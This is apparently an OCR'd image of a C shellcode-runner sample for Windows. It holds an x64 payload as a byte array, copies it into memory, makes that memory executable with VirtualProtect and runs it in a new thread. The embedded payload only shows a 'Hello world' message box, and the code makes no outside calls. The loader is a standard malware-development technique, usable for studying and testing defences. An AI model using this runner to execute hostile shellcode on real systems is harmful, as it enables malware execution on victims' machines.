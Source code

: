 ### No hidden call  

```c 
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload "Hello world" messagebox
unsigned char my_payload[] = 
"\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
"\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
"\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
"\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
"\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
"\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
"\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
"\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
"\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
"\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
"\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
"\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
"\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
"\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
"\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
"\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
"\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
"\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
"\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
"\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
"\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
"\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
"\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
"\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
"\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
"\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
"\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
"\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
"\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";

unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {
  // run payload
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}
```
